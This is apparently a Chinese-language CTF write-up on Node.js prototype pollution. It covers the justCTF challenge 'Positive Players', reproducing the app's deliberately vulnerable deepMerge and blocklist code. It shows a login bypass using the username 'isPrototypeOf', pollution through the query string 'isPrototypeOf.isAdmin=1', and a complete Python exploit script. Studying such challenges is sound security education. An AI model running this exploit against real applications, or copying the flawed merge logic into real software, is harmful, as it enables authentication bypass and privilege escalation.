










# nodejs 原型链污染新视角-先知社区

> **来源**: https://xz.aliyun.com/news/18843  
> **文章ID**: 18843

---

# nodejs 原型链污染新视角

## nodejs 原型链污染

nodejs 原型链污染在平时的 ctf 题目里面也算是出现得比较多的一个考点了，一般就是通过覆盖某些属性进行绕过或者 pp2rce 手法的考察，下面简单介绍一下原型链污染原理。

**原型链**：对象的\_\_proto\_\_是原型，而原型也是一个对象，也有\_\_proto\_\_属性，原型的\_\_proto\_又是原型的原型，就这样可以一直通过\_\_proto\_\_向上找，这便是原型链，当向上找找到 object 的原型的时候，这条原型链便算结束了。

之所以能形成原型链污染最基本的机制就是当在一个 son 对象中寻找一个属性，而子对象没有这个属性，那么就会去 `son.__proto__` 中寻找这个属性，如果仍然找不到，则继续在 `son.__proto__.__proto__` 中寻找，依次查找直到找到 null 结束。那么当我们需要某个对象的属性为 true 时，如果它没有这个属性，他就会去\_\_proto\_\_上找，这时我可以通过直接污染 object 对象的这个属性值为 true，使得我目标对象该属性为 true。

demo

```
const foo = {
    bar: 1
};
foo.__proto__.bar = 2
console.log(foo.bar);
const zoo = {};
console.log(zoo.bar); 
```

因为 foo 本身就有 bar 属性，所以打印 foo.bar 还是为 1，而 zoo 没有这个属性就回去其原型寻找，而我们通过 `foo.__proto__.bar = 2` 将 object 的 bar 属性赋值为了 2，所以 zoo 寻找到的就是 2 了。



可以通过以下方式访问得到某一实例对象的原型对象，

```
objectname["__proto__"]
objectname.__proto__
objectname.constructor.prototype
```

其实剩下的 pp2rce 和 ejs 模板命令执行也是差不多的原理，主要是取决于污染什么属性。

## Positive Players

### 分析

主要源码，

```
const express = require('express');
const session = require('express-session');
const crypto = require('crypto');

const app = express();
const PORT = 3000;
const FLAG = process.env.FLAG || "justCTF{example_flag}"
const SECRET = crypto.randomBytes(24).toString('hex');

app.use(express.urlencoded({ extended: true }));

app.use(session({
  secret: SECRET, 
  resave: false,
  saveUninitialized: true,
  cookie: { secure: false } 
}));
const users = {}; 
const escapeHtml = (unsafe) => {
  if (typeof unsafe !== 'string') return unsafe;
  return unsafe
    .replace(/&/g, "&amp;")
    .replace(/</g, "&lt;")
    .replace(/>/g, "&gt;")
    .replace(/"/g, "&quot;")
    .replace(/'/g, "&#039;");
};

const deepMerge = (target, source) => {
  for (const key in source) {
    if (source[key] instanceof Object && key in target) {
      Object.assign(source[key], deepMerge(target[key], source[key]));
    }
  }
  Object.assign(target || {}, source);
  return target;
};
.
const parseQueryParams = (queryString) => {
  if (typeof queryString !== 'string') {
    return {};
  }
  const cleanString = queryString.startsWith('?') ? queryString.substring(1) : queryString;
  const params = new URLSearchParams(cleanString);
  const result = {};
  for (const [key, value] of params.entries()) {
    const path = key.split('.');
    let current = result;
    for (let i = 0; i < path.length; i++) {
      let part = path[i];
      // Protect against Prototype Pollution vulnerability
      if(['__proto__', 'prototype', 'constructor'].includes(part)){
        part = '__unsafe$' + part;
      }
      if (i === path.length - 1) {
        current[part] = value;
      } else {
        if (!current[part] || typeof current[part] !== 'object') {
          current[part] = {};
        }
        current = current[part];
      }
    }
  }
  return result;
};


const isAuthenticated = (req, res, next) => {
  if (req.session.userId) {
    next();
  } else {
    res.redirect('/login');
  }
};

const defaultThemeConfig = {
  theme: {
    primaryColor: '#8E24AA', // A nice shade of purple
    secondaryColor: '#FFC107', // An amber yellow
    fontSize: '18px',
    fontFamily: 'Arial, sans-serif'
  }
};

// 10. Helper function to generate a styled HTML page
const generateThemedPage = (pageBody, themeConfig, title = 'Theme Configuration App') => {
  return `
    <!DOCTYPE html>
    <html lang="en">
    <head>
      <meta charset="UTF-8">
      <meta name="viewport" content="width=device-width, initial-scale=1.0">
      <title>${escapeHtml(title)}</title>
      <style>
        body {
          font-family: ${escapeHtml(themeConfig.theme.fontFamily)};
          background-color: #121212;
          color: #E0E0E0;
          display: flex;
          justify-content: center;
          align-items: center;
          min-height: 100vh;
          margin: 0;
          padding: 20px;
          flex-direction: column;
          gap: 20px;
        }
        .container {
          max-width: 800px;
          padding: 40px;
          border-radius: 10px;
          background-color: #1E1E1E;
          box-shadow: 0 4px 8px rgba(0, 0, 0, 0.2);
          text-align: center;
          width: 100%;
        }
        .form-container {
            max-width: 800px;
            padding: 20px;
            border-radius: 10px;
            background-color: #1E1E1E;
            box-shadow: 0 4px 8px rgba(0, 0, 0, 0.2);
            width: 100%;
        }
        h1 {
          color: ${escapeHtml(themeConfig.theme.primaryColor)};
          font-size: 2.5rem;
          margin-bottom: 0.5rem;
        }
        p {
          font-size: ${escapeHtml(themeConfig.theme.fontSize)};
          line-height: 1.6;
        }
        a {
          color: ${escapeHtml(themeConfig.theme.primaryColor)};
          text-decoration: none;
          font-weight: bold;
          transition: color 0.3s ease;
        }
        a:hover {
          text-decoration: underline;
          color: ${escapeHtml(themeConfig.theme.secondaryColor)};
        }
        pre {
          background-color: #000000;
          color: #00FF00;
          padding: 20px;
          border-radius: 8px;
          border: 1px solid ${escapeHtml(themeConfig.theme.secondaryColor)};
          overflow-x: auto;
          text-align: left;
        }
        form {
          display: flex;
          flex-direction: column;
          gap: 15px;
          text-align: left;
        }
        label {
          font-weight: bold;
          color: #E0E0E0;
        }
        input[type="text"], input[type="password"], input[type="color"] {
          width: 100%;
          padding: 8px;
          border-radius: 5px;
          border: 1px solid ${escapeHtml(themeConfig.theme.primaryColor)};
          background-color: #2D2D2D;
          color: #E0E0E0;
          box-sizing: border-box;
        }
        input[type="color"] {
            padding: 0;
            height: 40px;
        }
        button {
          background-color: ${escapeHtml(themeConfig.theme.primaryColor)};
          color: #fff;
          border: none;
          padding: 12px 20px;
          border-radius: 5px;
          cursor: pointer;
          font-size: 1rem;
          font-weight: bold;
          transition: background-color 0.3s ease;
        }
        button:hover {
          background-color: ${escapeHtml(themeConfig.theme.secondaryColor)};
        }
        .error-message {
            color: #FF6B6B;
            font-size: 0.9rem;
            text-align: center;
        }
      </style>
    </head>
    <body>
      ${pageBody}
    </body>
    </html>
  `;
};

// 11. Registration Routes
app.get('/register', (req, res) => {
  const errorMessage = req.session.errorMessage;
  req.session.errorMessage = null; // Clear the error message after displaying it
  const errorHtml = errorMessage ? `<p class="error-message">${escapeHtml(errorMessage)}</p>` : '';

  const pageBody = `
    <div class="container">
      <h1>Register</h1>
      ${errorHtml}
      <form action="/register" method="POST">
        <input type="text" name="username" placeholder="Username" required><br><br>
        <input type="password" name="password" placeholder="Password" required><br><br>
        <button type="submit">Register</button>
      </form>
      <p>Already have an account? <a href="/login">Login here</a></p>
    </div>
  `;
  res.send(generateThemedPage(pageBody, defaultThemeConfig, 'Register'));
});

app.post('/register', (req, res) => {
  const { username, password } = req.body;
  if (users[username]) {
    req.session.errorMessage = 'User already exists!';
    return res.redirect('/register');
  }
  
  // Storing the password in plaintext for the CTF scenario.
  // DO NOT do this in a real application!
  users[username] = {
    password: password,
    isAdmin: false,
    themeConfig: {
      theme: {
        primaryColor: '#6200EE',
        secondaryColor: '#03DAC6',
        fontSize: '16px',
        fontFamily: 'Roboto, sans-serif'
      }
    }
  };
  
  req.session.userId = username;
  res.redirect('/');
});

// 12. Login Routes
app.get('/login', (req, res) => {
  const errorMessage = req.session.errorMessage;
  req.session.errorMessage = null; // Clear the error message after displaying it
  const errorHtml = errorMessage ? `<p class="error-message">${escapeHtml(errorMessage)}</p>` : '';

  const pageBody = `
    <div class="container">
      <h1>Login</h1>
      ${errorHtml}
      <form action="/login" method="POST">
        <input type="text" name="username" placeholder="Username" required><br><br>
        <input type="password" name="password" placeholder="Password" required><br><br>
        <button type="submit">Login</button>
      </form>
      <p>Don't have an account? <a href="/register">Register here</a></p>
    </div>
  `;
  res.send(generateThemedPage(pageBody, defaultThemeConfig, 'Login'));
});

app.post('/login', (req, res) => {
  const { username, password } = req.body;
    const user = users[username];

  // Comparing the plaintext password for the CTF scenario.
  // DO NOT do this in a real application!
  if (user && user.password === password) {
    req.session.userId = username;
    res.redirect('/');
  } else {
    req.session.errorMessage = 'Invalid username or password';
    res.redirect('/login');
  }
});

// 13. Logout Route
app.get('/logout', (req, res) => {
  req.session.destroy(err => {
    if (err) {
      return res.status(500).send('Could not log out.');
    }
    res.redirect('/login');
  });
});

// 14. Define the root endpoint (protected)
app.get('/', isAuthenticated, (req, res) => {
  const user = users[req.session.userId];
  if (!user) {
    return res.redirect('/login');
  }
  
  const themeConfig = user.themeConfig;
  
  const pageBody = `
    <div class="container">
      <h1>Welcome, ${escapeHtml(req.session.userId)}!</h1>
      <p>Current Theme Configuration:</p>
      <pre>${escapeHtml(JSON.stringify(themeConfig, null, 2))}</pre>
      <p><a href="/logout">Logout</a></p>
    </div>

    <div class="form-container">
      <h2>Customize Theme</h2>
      <form action="/theme" method="GET">
        <label for="primaryColor">Primary Color:</label>
        <input type="color" id="primaryColor" name="theme.primaryColor" value="${escapeHtml(themeConfig.theme.primaryColor)}">

        <label for="secondaryColor">Secondary Color:</label>
        <input type="color" id="secondaryColor" name="theme.secondaryColor" value="${escapeHtml(themeConfig.theme.secondaryColor)}">

        <label for="fontSize">Font Size (e.g., '16px'):</label>
        <input type="text" id="fontSize" name="theme.fontSize" value="${escapeHtml(themeConfig.theme.fontSize)}">

        <label for="fontFamily">Font Family (e.g., 'Roboto, sans-serif'):</label>
        <input type="text" id="fontFamily" name="theme.fontFamily" value="${escapeHtml(themeConfig.theme.fontFamily)}">
        
        <button type="submit">Update Theme</button>
      </form>
    </div>
  `;
  res.send(generateThemedPage(pageBody, themeConfig));
});


// 15. Define the `/theme` endpoint (protected)
app.get('/theme', isAuthenticated, (req, res) => {
  const user = users[req.session.userId];
  if (!user) {
    // This case should be handled by isAuthenticated middleware, but is here as a fallback
    return res.redirect('/login');
  }

  // Parse the query string into a nested object
  const queryString = req.url.split('?')[1] || '';
  const parsedUpdates = parseQueryParams(queryString);

  // If there are updates, merge them into the existing config.
  if (Object.keys(parsedUpdates).length > 0) {
    // Merge the parsed updates into the user's theme config.
    user.themeConfig = deepMerge(user.themeConfig, parsedUpdates);
  }

  // Redirect the user back to the home page to see the updated theme.
  res.redirect('/');
});

// 15. Define the `/flag` endpoint (protected)
app.get('/flag', isAuthenticated, (req, res, next)=>{
  if(users[req.session.userId].isAdmin == true){
    return res.end(FLAG);
  }
  return res.end("Not admin :(");
});

// 16. Start the Express server
app.listen(PORT, () => {
  console.log(`Server is running at http://localhost:${PORT}`);
  console.log('Please register or login at http://localhost:3000/register or http://localhost:3000/login');
});

```

主要有三个路由，/register 注册，/login 登录，/theme 进行原型链污染的点，想要获得 flag 需要满足 `users[req.session.userId].isAdmin == true`，发现 isAdmin 在注册用户的时候自动就被设置为了 false，

```
app.post('/register', (req, res) => {  
  const { username, password } = req.body;  
  if (users[username]) {  
    req.session.errorMessage = 'User already exists!';  
    return res.redirect('/register');  
  }  
    
  // Storing the password in plaintext for the CTF scenario.  
  // DO NOT do this in a real application!  users[username] = {  
    password: password,  
    isAdmin: false,  
    themeConfig: {  
      theme: {  
        primaryColor: '#6200EE',  
        secondaryColor: '#03DAC6',  
        fontSize: '16px',  
        fontFamily: 'Roboto, sans-serif'  
      }  
    }  
  };
```

这里很明显我们只有通过原型链污染修改其属性，注意存在 waf，把三个获得原型的方法都过滤了，基本上是没法去获得原型了，



起初在网上找了一下，找到篇这个文章 <https://tttang.com/archive/1338/>，但是很明显这里是没有办法利用空格进行绕过，而且后面想了一下，就算绕过了可以污染原型了，但是污染了 object 的 isAdmin 为 true 也没什么用，因为我们注册用户后肯定就存在 isAdmin 属性了，那么在获取 `users[req.session.userId].isAdmin` 的时候就不会向上找了。

这里一开始还想伪造一下 session，伪造的 session 没有走注册的地方那么就不存在这个 isAdmin 属性，然后再想办法污染 obejct.isAdmin，但是很可惜这里 session 的 secret 是随机的，

```
const SECRET = crypto.randomBytes(24).toString('hex');
app.use(session({  
  secret: SECRET,   
  resave: false,  
  saveUninitialized: true,  
  cookie: { secure: false } // Set to true if using HTTPS  
}));
```

转换一下思路能不能不走注册逻辑直接进行登录获得 session 呢？细看一下登录逻辑

```
app.post('/login', (req, res) => {  
  const { username, password } = req.body;  
    const user = users[username];  
    
if (user && user.password === password) {  
    req.session.userId = username;  
    res.redirect('/');  
  } else {  
    req.session.errorMessage = 'Invalid username or password';  
    res.redirect('/login');  
  }  
});
```

看到需要先判断 user 存在，然后 user.password === password 就会获得 session，而这里 user 为 `users[username]` 的值，然而其实就算 username 是一个 users 不存在的属性，代码还会向原型去寻找这个属性直到为 null 才会结束。那么是不是我们这个 username 可以找个 object 中存在的属性，这样就算没有注册还是能让 user 存在。

简单看了下，还真存在很多 function，虽然不是属性不过不影响判断逻辑，



比如我们传入 username 为 `isPrototypeOf` 看到 user 就已经存在了



而 user.password 为 undefined，



那么我们只传入 username，让 password 也为 undefined 就行了，最后获得了 session



接下来就是要想办法怎么绕过 `'__proto__'`, 'prototype', 'constructor'的过滤进行原型链污染了，但是很可惜的是基本没有办法绕过，那么又只能另辟蹊径了，我们细看原型链污染的地方，传入参数



然后把 user.themeConfig 和我们传入的参数进行拼接进行赋值，



按理说我们应该传入 `__proto__.isAdmin=true` 来进行污染，但是被过滤了嘛，那还有没有其他办法进行污染到 object 的的 isAdmin 属性呢。

考虑这个问题首先我需要先到达 object ，很显然不可能了，那我们我们能不能到达 object 的属性呢，假如传入 `isPrototypeOf=1`，那么因为 user.themeConfig 没有这个属性，所以会去 object 找到 isPrototypeOf 属性，然后进行赋值，这样其他子对象获得的 isPrototypeOf 就都为 1 了，同理假如我们传入 `isPrototypeOf.isAdmin=1` 那么其他子对象的 isPrototypeOf.isAdmin 也就都为 1 了。

最后再看获得 flag 条件 `users[req.session.userId].isAdmin == true`，因为我们的登录绕过导致 `req.session.userId` 就是 isPrototypeOf，那么其实就是 `users[isPrototypeOf].isAdmin`，而 users 没有 isPrototypeOf 属性会去 object 找，又因为 object 的 isPrototypeOf.isAdmin 被我们污染为了 true，所以最后 `users[isPrototypeOf].isAdmin` 也就为 true 了，从而实现绕过获得 flag

### 题解

先在 /theme 路由传入 `isPrototypeOf.isAdmin=1` 进行污染，然后登录 isPrototypeOf 用户密码处置空，



有报错不用管吗，最后访问/flag 路由得到 flag，



exp：

```
import requests
import random

HOST = 'http://localhost:3000'
sess = requests.Session()

# Register
username = password = random.randbytes(4).hex()
register_data = {
    'username': username,
    'password': password,
}
r = sess.post(HOST + '/register', data=register_data, allow_redirects=False)
print(r.status_code, r.text)

# Write to objects in the prototype because `key in target` checks the prototype
# so `deepMerge(target[key], source[key])` allows writing to prototype objects
r = sess.get(HOST + '/theme?isPrototypeOf.isAdmin=1', allow_redirects=False)
print(r.status_code, r.text)

# Login with the username `isPrototypeOf`
# Omit password to pass `if (user && user.password === password)`
# Then `users[req.session.userId].isAdmin` equals `users.isPrototypeOf.isAdmin`
login_data = {
    'username': 'isPrototypeOf',
    # 'password': password,
}

r = sess.post(HOST + '/login', data=login_data, allow_redirects=False)
print(r.status_code, r.text)

r = sess.get(HOST + '/flag', allow_redirects=False)
print(r.text)
```

## 总结

很巧妙的一道题，平时我们进行 nodejs 原型链污染都是先通过\_\_proto\_\_或者 constructor.prototype 获取到 Object 对象再进行的属性赋值，而这里是通过获取到 Object 对象的属性然后进行对属性进行赋值，然后因为最后子对象没有这个属性还是会取 Object 对象属性的值从而实现污染。

参考： <https://solovvway.github.io/posts/just/just-theme-posiplay/>

参考： <https://gist.github.com/terjanq/fa6f19d46bcb85bb61c146747dec0758>
